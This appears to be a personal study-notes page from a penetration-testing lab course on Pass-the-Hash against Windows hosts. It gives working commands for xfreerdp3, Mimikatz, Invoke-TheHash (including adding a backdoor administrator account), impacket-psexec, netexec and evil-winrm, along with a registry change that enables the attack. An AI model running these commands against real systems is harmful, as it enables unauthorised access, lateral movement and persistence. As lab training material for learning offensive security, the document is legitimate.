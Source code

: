 We can authenticate to windows machines using a users password hash. This is caused by NTLM authentication being turned on
### RDP
`Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:
![[Pasted image 20250115053938.png]]
Enable Restricted Admin Mode to Allow PtH
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```bash

```

PtH with xfreerdp3
```bash
xfreerdp3  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```
### Mimikatz
```powershell
.\mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe" exit
```
- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).
### Invoke-TheHash
Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer

When using [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash), we have two options: SMB or WMI command execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:

- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

```powershell
Import-Module .\Invoke-TheHash.psd1

Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
### Impacket, Netexec, Evil-Winrm
```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

netexec smb 172.16.1.0/24 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453 --local-auth -x whoami

evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

### UAC Limits Pass the Hash for Local Accounts
UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.
> [!NOTE] Note
> There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account. 
https://posts.specterops.io/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy-506c25a7c167
